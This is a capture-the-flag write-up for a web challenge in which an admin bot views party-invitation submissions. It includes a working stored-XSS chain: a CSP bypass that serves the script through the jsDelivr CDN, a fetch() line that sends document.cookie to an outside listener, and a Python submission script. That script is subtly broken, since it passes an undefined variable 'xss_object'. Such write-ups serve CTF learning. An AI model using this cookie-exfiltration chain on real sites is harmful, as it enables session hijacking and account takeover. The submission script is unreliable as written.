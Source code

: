# [Web] Cursed Party

This web application has a simple form to send information about invitation to a party. Once an invitation is submitted, a bot with admin access will visit the page displaying the invitation requests.

```js
const flag = fs.readFileSync('/flag.txt', 'utf8');
[...]
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```

Stealing this cookie will give us the flag. Since we need to steal a cookie via a form, this is most likely by using an XSS.

Indeed the admin page displaying the requests is vulnerable to XSS

```html
    <body>
        <div class="container" style="margin-top: 20px">
            {% for request in requests %}
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>

                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
```

However we do have one more thing to overcome. This site uses a [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header restricting from where Javascript can be loaded into the victim's browser.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

It uses `https://cdn.jsdelivr.net` as base URL for scripts: we can upload an XSS payload to Github, use JS Delivr to fetch that script and serve it as part of its CDN.

The XSS payload we will use should not use `eval`, as the CSP doesn't allow `unsafe-eval`. We can use `fetch` to send the cookie data

```html
<script>fetch('http://1.2.3.4:4444?aaa='+document.cookie, {method: 'GET',mode: 'no-cors'});</script>
```

Once this is hosted on Github, we use the corresponding JS Delivr as part of the invitation sent over the form, to be displayed to the admin bot.

```python
import requests

host = "http://1.2.3.4:32689"

xss = b'</p></div><script src="https://cdn.jsdelivr.net/gh/pgaulon/ctf-xss@main/troll.js"></script>'
payload = {
    "costume_type": "aaa",
    "email": "aaa@aa.aa",
    "halloween_name": xss_object,
    "trick_or_treat": "treats"
    }

response = requests.post(host + '/api/submit', json=payload)
print(response.text)
```

We then receive the callback on our listener, with the cookie containing the flag. The cookie being a [JWT](https://jwt.io/), it just needs an extra base64 decoding.
